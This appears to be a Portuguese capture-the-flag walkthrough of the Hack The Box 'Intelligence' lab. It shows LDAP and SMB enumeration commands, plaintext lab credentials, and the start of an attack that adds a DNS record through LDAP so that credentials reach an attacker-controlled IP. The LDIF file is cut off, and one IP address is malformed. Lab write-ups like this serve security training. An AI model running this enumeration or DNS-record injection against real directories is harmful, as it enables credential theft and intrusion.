 Depois de tert obtido as credenciais, continuamos a enumeração via LDAP.

enumerating users

    ldapsearch -x -h 10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "cn=users,dc=intelligence,dc=htb"
    
Command options explained:

-x use simple authentication (as opposed to SASL)
-h your AD server
-D the DN to bind to the directory. In other words, the user you are authenticating with.
-W Prompt for the password. The password should match what is in your directory for the the binddn (-D). Mutually exclusive from -w.
-b The starting point for the search

Tentativa de enumeração de grupos do AD;

    net ads group -S 10.10.10.248 -U Tiffany.Molina -w intelligence.htb
   (no success)
   
    ldapsearch -x -h 10.10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "dc=intelligence,dc=htb" "(objectclass=group)"
    (success)

    ldapsearch -x -h 10.10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "memberOf=cn='Remote Desktop Users',ou='Remote Desktop Users',dc=intelligence,dc=htb" "(objectcategory=user)"


## Exploitation

Credenciais;
    Tiffany.Molina
NewIntelligenceCorpUser9876

Pŕóximo passo aqui é o seguinte... Descobrimos que existe um script que envias as credenciais para checagem de servidores web... Tudo o que precisamos fazer é um redirecionamento ed DNS por meio do LDAP. Visto que o protocolo LDAP pode escrever nos registeros de DNS do servidor, é por ele que vamos explorar a vulnerabilidade.


Primeiro só visualizei os registros que já tinham no servidor;


    ldapsearch -x -h 10.10.10.248 -D "Tiffany.Molina@intelligence.htb" -W -b "CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb"
    
 Para criação de um novo registro de DNS no servidor, será necessário criarmos um arquivo LDIF:
 
 
 dn: DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,
 DC=intelligence,DC=htb
 objectClass: top
 objectClass: dnsNode
 arecord: 10.10.14.8
 .
 .
 .
 